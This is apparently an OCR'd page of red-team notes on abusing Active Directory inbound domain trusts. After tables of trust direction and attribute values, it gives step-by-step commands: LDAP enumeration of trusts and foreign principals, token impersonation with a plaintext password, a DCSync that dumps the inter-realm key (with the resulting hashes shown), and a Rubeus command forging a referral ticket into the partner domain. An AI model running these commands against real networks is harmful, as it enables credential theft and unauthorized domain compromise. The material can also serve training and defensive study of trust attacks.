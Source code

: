 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | trustAttributes                      |
| ----- | ------------------------------------ |
| 1     | `TRUST_ATTRIBUTE_NON_TRANSITIVE`     |
| 4     | `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN` |
| 8     | `TRUST_ATTRIBUTE_FOREST_TRANSITIVE`  |
| 32    | `TRUST_ATTRIBUTE_WITHIN_FOREST`      |
| 64    | `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL`  |

##### Inbound Trust Abuse

Enumerate the one-way trust
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
```

Enumerate the Foreign Security Principals Container.
```powershell
ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com
```

Enumerate interesting SID
```powershell
ldapsearch (objectSid=[SID])

ldapsearch (objectSid=S-1-5-21-3926355307-1661546229-813047887-6102)
```

Perform DCSync to obtain inter-realm key.
```powershell
make_token CONTOSO\dyork Passw0rd!
dcsync contoso.com CONTOSO\PARTNER$
rev2self

7dd5eff4dfa069406ade61cbf61f1f0b39049781179d89c7cef0eb57200526a3
77057e264522cbf4db45d6733b9167dc
```

Forge a refferal ticket offline
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:[NTLM HASH] /nowrap
```